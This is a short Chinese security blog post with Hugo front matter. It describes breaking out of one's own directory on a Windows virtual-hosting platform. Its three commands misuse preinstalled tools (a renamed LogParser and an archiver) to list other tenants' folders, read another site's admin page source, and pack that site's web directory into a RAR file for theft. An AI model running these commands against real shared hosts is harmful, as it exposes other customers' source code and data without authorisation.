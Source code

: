 ```yaml
---
title: "星外虚拟主机跨目录"
date: 2018-01-27T00:00:00+08:00
draft: false
author: "X1r0z"

tags: []
categories: ["web"]

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



列目录 + 文件读取 + 文件打包

<!--more-->

可执行文件

```
c:\windows\7i24IISLOG.exe
c:\windows\7i24IISLOG2.exe
c:\windows\7i24IISLOG3.exe
c:\windows\7i24IISLOG4.exe
c:\windows\7i24tool.exe
c:\windows\rsb.exe
```

7i24IISLOG.exe 其实就是微软的 LogParser

列目录

`cmd: c:\windows\7i24IISLOG.exe "select top 100 path from d:\freehost\*.*" -i:FS -rtp:-1`

文件读取

`cmd: c:\windows\7i24IISLOG.exe "select text from d:\freehost\xinyuidc\web\admin\index.asp" -i:textline -rtp:-1`

文件打包

`cmd: c:\windows\7i24IISLOG3.exe d:\freehost\xinyuidc\web\ "C:\Documents and Settings\All Users\Application Data\Microsoft\Media Index\web.rar"`